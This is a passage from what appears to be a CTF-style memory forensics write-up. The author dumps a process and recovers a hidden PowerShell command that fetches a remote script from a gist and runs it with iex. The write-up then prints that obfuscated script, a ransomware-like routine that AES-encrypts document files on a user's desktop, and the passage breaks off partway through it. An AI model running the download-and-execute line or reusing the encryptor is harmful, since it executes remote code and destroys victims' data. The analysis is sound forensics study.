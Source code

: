 ```
***** 1104      5532    conhost.exe     0x9a0a75953080  3       -       1       False   2024-09-21 15:01:46.000000 UTC  N/A     \Device\HarddiskVolume4\Windows\System32\conhost.exe\??\C:\Windows\system32\conhost.exe 0x4  C:\Windows\system32\conhost.exe

---SNIP---
```

Since it was executing powershell, I went ahead and dumped the malware to run strings on it to potentially identify the malicious powershell commands.

```
└─$ strings pid.3284.dmp | grep powershell      
powershell.exe -exec bypass -NoP -NonI -W Hidden -c "iwr https://gist.githubusercontent.com/zachwong02/40b6b4dd9b59081f539863f889b1ed95/raw/1f40b7d454300b70ade8a8c1e15f61c6509ffb06/microsoft_update.ps1 -UseBasicParsing | Select-Object -Expand Content | iex"
powershell.exe -exec bypass -NoP -NonI -W Hidden -c "iwr https://gist.githubusercontent.com/zachwong02/40b6b4dd9b59081f539863f889b1ed95/raw/1f40b7d454300b70ade8a8c1e15f61c6509ffb06/microsoft_update.ps1 -UseBasicParsing | Select-Object -Expand Content | iex"

---SNIP---
```

Lo and behold, an obfuscated powershell script can be obtained from the URL identified previously.

```powershell
  sEt-ItEm  ('Va'+'r'+'iabLE:Y'+'fKSE2') (  [type]("{0}{2}{1}" -f 'CO','rT','nvE') )  ;   ${5`YN`Mz}=[tYPE]("{5}{3}{2}{1}{0}{6}{8}{4}{7}" -F 'r','c','ITy.','uR','a','sysTem.SeC','yPTOGr','eS','aphY.')  ;  ${0`sO}  =  [type]("{3}{7}{9}{4}{5}{2}{6}{10}{0}{1}{8}" -F'P','hy.C','.','SY','u','rITy','crYptOg','Ste','iPHErmODe','m.SEc','RA')  ;    SEt-itEM  VARiAblE:VFj4K  ([tyPe]("{0}{2}{1}{3}{4}" -f 'sy','.I','STEm','O.Fil','e') ) ;${VRLH`H`UxY`99} = ("{6}{5}{2}{0}{7}{4}{3}{1}"-f 'WQm6','zHo=','ZwHYuiK','FAp4dRa1RhW','ow1PfP/DNCo','t','6P9U','Nb')
${fQvX`Ep`kE`99} = ("{1}{4}{7}{6}{5}{2}{0}{3}" -f 'A','ml6e2HwOgw','RzXb','==','cf','D0s','s','7')
${b`BQiulC`U99} = ((("{6}{3}{1}{2}{5}{4}{0}{7}"-f 'top{0}importan','s{0','}a','{0}User','sk','dmin{0}De','C:','t'))  -f  [cHar]92)
if (-Not (.("{1}{0}"-f '-Path','Test') ${BBQ`Iu`lcU99})) {exit}
${LtJ`eQl`Kx99} = ("{1}{0}" -f '.doc','*'), ("{2}{0}{1}"-f 'c','x','*.do'), ("{1}{0}" -f 's','*.xl'), ("{0}{1}"-f '*.xls','m'), ("{0}{1}"-f'*','.pdf'), ("{0}{1}" -f'*','.txt')
function eXI`St {
    param ([string]${kCrB`VFu`Y99})
    
    ${C`oYMV`YdO99} =  ${Yfk`Se2}::("{0}{4}{3}{2}{1}"-f 'FromB','tring','S','4','ase6').Invoke(${VRlh`HUX`y99})
    ${O`HM`F`pKpA99} =   (Dir  ('VA'+'r'+'Iable:y'+'FksE2') ).vALUe::("{0}{4}{3}{1}{2}"-f'F','se64','String','omBa','r').Invoke(${FqvxEP`ke`99})
    ${eL`R`Vzypl99} =  ${VfJ`4K}::("{1}{2}{0}"-f'llBytes','Rea','dA').Invoke(${KC`R`BvFU`y99})
    ${UElQ`Tb`xg`99} =   (  ls  VARIAbLe:5ynmz ).vAluE::("{0}{1}{2}"-f'Cr','eat','e').Invoke()
    ${UElQt`B`x`g99}."K`eY" = ${c`oYm`Vydo`99}
    ${UeLQT`BxG`99}."IV" = ${OHmF`PK`Pa`99}
    ${uE`LQ`TbXg`99}."MO`DE" =   ${0`So}::"c`Bc"
    ${BAdm`w`NX`G99} = ${UElqT`Bx`G99}.("{0}{2}{1}{3}{4}"-f'Cr','ncr','eateE','ypt','or').Invoke()
    ${Ko`e`w`TRzK99} = ${b`ADMwnx`G`99}.("{1}{2}{3}{0}"-f'ock','Tra','nsformFina','lBl').Invoke(${ElRvz`yp`l99}, 0, ${eLRv`zYpL`99}."len`gTh")
     ${V`Fj4K}::("{0}{1}{2}{3}"-f 'W','r','iteAllByte','s').Invoke(${Kc`R`B`VFuy99}, ${K`OewTrZ`k99})
}
${W`qcK`N`Xml99} = ((("{3}{10}{5}{1}{7}{11}{8}{4}{2}{9}{0}{6}" -f 'o','Microso','r','HKCU:LXJ','entVe','J','nLXJRun','ftLXJW','Curr','si','SoftwareLX','indowsLXJ'))."R`EPlaCe"('LXJ',[sTrIng][cHaR]92))
${fHY`Hv`No`W99} = ("{1}{0}" -f 'g','fla')
${dzef`Ox`dP99} = &("{3}{5}{2}{4}{1}{0}" -f 'erty','mProp','t','G','-Ite','e') -Path ${W`Q`ck`NxmL99} -Name ${fhy`HVn`ow99} -ErrorAction ("{4}{1}{2}{3}{0}"-f'ue','en','tlyCo','ntin','Sil')
if (-Not ${dzE`F`ox`dp99}) {exit}
foreach (${fsXVd`l`TE99} in ${lt`j`Eq`lKx99}) {
    ${FI`leS} = .("{2}{1}{0}" -f 'ChildItem','-','Get') -Path ${b`BQIU`l`cU99} -Recurse -Filter ${fsX`VDLt`e`99}
```